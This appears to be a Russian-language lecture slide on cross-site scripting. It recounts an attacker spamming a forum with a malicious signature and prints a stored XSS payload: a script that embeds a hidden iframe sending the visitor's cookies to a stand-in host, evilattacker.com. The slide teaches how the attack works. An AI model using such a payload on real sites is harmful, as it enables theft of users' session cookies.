

# Более жестокий, но реальный пример
Злоумышленник наткнулся на форум (имя которого я не назову, дабы не подрывать авторитет компании), который позволяет пользователям отображать небольшую подпись под своими комментариями. Злоумышленник создаёт учетную запись, спамит во всех темах в пределах досягаемости, применяя следующую подпись к своим сообщениям:
<script>document.write('<iframe src="http://evilattacker.com?cookie='
    + document.cookie.escape() + '" height=0 width=0 />');</script>